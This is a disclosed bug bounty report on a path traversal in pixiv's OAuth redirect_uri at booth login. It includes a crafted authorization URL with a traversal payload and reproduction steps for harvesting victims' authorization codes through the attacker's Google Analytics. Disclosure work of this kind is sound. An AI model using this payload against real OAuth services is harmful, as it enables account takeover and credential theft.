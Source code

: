 # Stealing Users OAuth authorization code via redirect_uri

## Report Details
- **Report ID**: 1861974
- **URL**: https://hackerone.com/reports/1861974
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-02-04T07:53:55.832Z
- **Disclosed**: 2023-03-22T08:59:58.038Z

## Reporter
- **Username**: kuzu7shiki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pixiv

## Vulnerability Information
## Summary:
Path traversal in OAuth `redirect_uri` which can lead to users authorization code being leaked to any malicious user.

The following authorization code flow request is generated at booth login.
```
https://oauth.secure.pixiv.net/v2/auth/authorize?client_id=a1Z7w6JssUQkw5Hid0uIDeuesue9&redirect_uri=https%3A%2F%2Fbooth.pm%2Fusers%2Fauth%2Fpixiv%2Fcallback&response_type=code&scope=read-works+read-favorite-users+read-friends+read-profile+read-email+write-profile&state=%3A1a38b53563599621ce25094661b1c4458ddb52d79d771149
```

Path traversal vulnerability in this `redirect_uri` parameter allows the attacker to direct the user to the product page created by the attacker.
```
redirect_uri=https%3A%2F%2Fbooth.pm%2Fusers%2Fauth%2Fpixiv%2Fcallback/../../../../ja/items/4503924
```
-> redirected to https://booth.pm/ja/items/4503924

If the attacker had Google Analytics enabled, the query string could be exposed when the victim is redirected to the product page, so the unused authorization code is leaked.

## Steps To Reproduce:

  1. The attacker makes his shop public. Register his products and set up his Google Analytics tracking ID.
  2. Have the victim click on the following link; the value of the state parameter can be anything.
```
https://oauth.secure.pixiv.net/v2/auth/authorize?client_id=a1Z7w6JssUQkw5Hid0uIDeuesue9&redirect_uri=https%3A%2F%2Fbooth.pm%2Fusers%2Fauth%2Fpixiv%2Fcallback/../../../../ja/items/[attacker's product id]&response_type=code&scope=read-works+read-favorite-users+read-friends+read-profile+read-email+write-profile&state=%3A1a38b53563599621ce25094661b1c4458ddb52d79d771149
```

  3. When the victim clicks on the above link and proceeds with the login process, he is redirected to the attacker's product page.

  4. The attacker can steal victims' authorizaiton code from Google Analytics real-time reports.

## Impact

Due to path traversal in `redirect_uri` parameter in OAuth flow, its possible to redirect authenticated users to attacker's product page with their OAuth credentials from which its possible to takeover their account.

## Attachments
- recording-1675493976118.webm
- request_response_-_the_victim_clicks_on_the_malicious_link.txt
- request_-_the_victim_redirected_attacker's_product_page.txt
